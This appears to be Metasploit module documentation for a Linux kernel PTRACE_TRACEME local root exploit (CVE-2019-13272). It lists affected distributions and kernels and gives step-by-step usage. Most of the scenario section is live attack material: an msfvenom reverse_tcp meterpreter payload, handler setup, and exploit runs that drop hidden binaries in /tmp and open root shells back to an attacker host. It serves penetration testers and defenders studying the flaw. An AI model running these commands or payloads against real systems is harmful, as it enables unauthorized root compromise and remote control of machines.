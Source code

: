 ## Vulnerable Application

In the Linux kernel before 5.1.17, ptrace_link in kernel/ptrace.c mishandles
the recording of the credentials of a process that wants to create a ptrace
relationship, which allows local users to obtain root access by leveraging
certain scenarios with a parent-child process relationship, where a parent drops
privileges and calls execve (potentially allowing control by an attacker). One
contributing factor is an object lifetime issue (which can also cause a panic).
Another contributing factor is incorrect marking of a ptrace relationship as
privileged, which is exploitable through (for example) Polkit's pkexec helper
with PTRACE_TRACEME. NOTE: SELinux deny_ptrace might be a usable workaround in
some environments.

  This module has been tested successfully on:
  * Ubuntu 16.04.5 kernel 4.15.0-29-generic
  * Ubuntu 18.04.1 kernel 4.15.0-20-generic
  * Ubuntu 19.04 kernel 5.0.0-15-generic
  * Ubuntu Mate 18.04.2 kernel 4.18.0-15-generic
  * Linux Mint 17.3 kernel 4.4.0-89-generic
  * Linux Mint 18.3 kernel 4.13.0-16-generic
  * Linux Mint 19 kernel 4.15.0-20-generic
  * Xubuntu 16.04.4 kernel 4.13.0-36-generic
  * ElementaryOS 0.4.1 4.8.0-52-generic
  * Backbox 6 kernel 4.18.0-21-generic
  * Parrot OS 4.5.1 kernel 4.19.0-parrot1-13t-amd64
  * Kali kernel 4.19.0-kali5-amd64
  * Redcore 1806 (LXQT) kernel 4.16.16-redcore
  * MX 18.3 kernel 4.19.37-2~mx17+1
  * RHEL 8.0 kernel 4.18.0-80.el8.x86_64
  * Debian 9.4.0 kernel 4.9.0-6-amd64
  * Debian 10.0.0 kernel 4.19.0-5-amd64
  * Devuan 2.0.0 kernel 4.9.0-6-amd64
  * SparkyLinux 5.8 kernel 4.19.0-5-amd64
  * Fedora Workstation 30 kernel 5.0.9-301.fc30.x86_64
  * Manjaro 18.0.3 kernel 4.19.23-1-MANJARO
  * Mageia 6 kernel 4.9.35-desktop-1.mga6
  * Antergos 18.7 kernel 4.17.6-1-ARCH

## Verification Steps

  1. Start msfconsole
  1. Get a shell or meterpreter session on the target
  1. Do: `use exploit/linux/local/pkexec_helper_ptrace`
  1. Do: `set session #`
  1. Do: `exploit`

## Options

  **WritableDir**

  A folder we can write files to.  Defaults to `/tmp`

  **COMPILE**
  
  If we should live compile on the system, or drop pre-created binaries.  Auto will determine if gcc/libs are installed to compile live on the system.  Defaults to `Auto`

## Scenarios

### Ubuntu 18.04 (with Linux 4.15.0-13-generic)

#### Initial Access

We need to gain an initial session on the target system before we can use this module.
Additionally this module will only work from a GUI session, and will fail with an SSH session.
In order to gain a compatible session we will upload a payload binary and run it from gnome-terminal.

```
# Create a payload binary
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.56.1 LPORT=4444 -f elf -o binary

# Start a handler
msfconsole
msf5 > use exploit/multi/handler
msf5 exploit(multi/handler) > set payload linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set LHOST 192.168.56.1
LHOST => 192.168.56.1
msf5 exploit(multi/handler) > set LPORT 4444
LPORT => 4444
msf5 exploit(multi/handler) > run

[*] Started reverse TCP handler on 192.168.56.1:4444

# Execute the payload using gnome-terminal on the target

[*] Sending stage (3021284 bytes) to 192.168.56.7
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.7:33244) at 2019-09-03 17:42:17 +0800

meterpreter > background

```

#### Escalate

In this scenario, gcc is installed so we can live compile on the system.

```
msf5 exploit(multi/handler) > use exploit/linux/local/pkexec_helper_ptrace
msf5 exploit(linux/local/pkexec_helper_ptrace) > set LHOST 192.168.56.1
LHOST => 192.168.56.1
msf5 exploit(linux/local/pkexec_helper_ptrace) > set SESSION 1
SESSION => 1
msf5 exploit(linux/local/pkexec_helper_ptrace) > set VERBOSE true
VERBOSE => true
msf5 exploit(linux/local/pkexec_helper_ptrace) > exploit
[*] Started reverse TCP handler on 192.168.56.1:4444
[+] Kernel version 4.15.0-13-generic appears to be vulnerable
[+] pkexec is installed
[*] Writing '/tmp/.zacecz' (285 bytes) ...
[+] gcc is installed
[*] Live compiling exploit on system...
[*] Writing '/tmp/.fmrefxhjjcq.c' (9718 bytes) ...
[*] Executing exploit '/tmp/.fmrefxhjjcq'
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3021284 bytes) to 192.168.56.7
[*] Exploit result:
Linux 4.10 < 5.1.17 PTRACE_TRACEME local root (CVE-2019-13272)
[.] Checking environment ...
[!] Warning: $XDG_SESSION_ID is not set
[!] Warning: Could not find active PolKit agent
[~] Done, looks good
[.] Searching for known helpers ...
[~] Found known helper: /usr/lib/gnome-settings-daemon/gsd-backlight-helper
[.] Using helper: /usr/lib/gnome-settings-daemon/gsd-backlight-helper
[.] Spawning suid process (/usr/bin/pkexec) ...
[.] Tracing midpid ...
[~] Attached to midpid
[*] Meterpreter session 2 opened (192.168.56.1:4444 -> 192.168.56.7:58270) at 2019-09-03 17:29:57 +0800
meterpreter > getuid
Server username: uid=0, gid=0, euid=0, egid=0
```

#### Escalate w/ pre-compiled binaries

It is possible to force pre-compiled binaries, in a scenario where `build-essential` or `gcc` aren't on the system.

```
msf5 exploit(multi/handler) > use exploit/linux/local/pkexec_helper_ptrace
msf5 exploit(linux/local/pkexec_helper_ptrace) > set LHOST 192.168.56.1
LHOST => 192.168.56.1
msf5 exploit(linux/local/pkexec_helper_ptrace) > set SESSION 1
SESSION => 1
msf5 exploit(linux/local/pkexec_helper_ptrace) > set COMPILE False
COMPILE => False
msf5 exploit(linux/local/pkexec_helper_ptrace) > run

[*] Started reverse TCP handler on 192.168.56.1:4444
[+] Kernel version 4.15.0-13-generic appears to be vulnerable
[+] pkexec is installed
[*] Writing '/tmp/.yaamzkukaml' (285 bytes) ...
[*] Dropping pre-compiled exploit on system...
[*] Writing '/tmp/.wtoplrisgzzo' (51200 bytes) ...
[*] Executing exploit '/tmp/.wtoplrisgzzo'
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3021284 bytes) to 192.168.56.7
[*] Exploit result:
Linux 4.10 < 5.1.17 PTRACE_TRACEME local root (CVE-2019-13272)
[.] Checking environment ...
[!] Warning: $XDG_SESSION_ID is not set
[!] Warning: Could not find active PolKit agent
[~] Done, looks good
[.] Searching for known helpers ...
[~] Found known helper: /usr/lib/gnome-settings-daemon/gsd-backlight-helper
[.] Using helper: /usr/lib/gnome-settings-daemon/gsd-backlight-helper
[.] Spawning suid process (/usr/bin/pkexec) ...
[.] Tracing midpid ...
[~] Attached to midpid
[*] Meterpreter session 3 opened (192.168.56.1:4444 -> 192.168.56.7:58272) at 2019-09-03 17:30:16 +0800
```

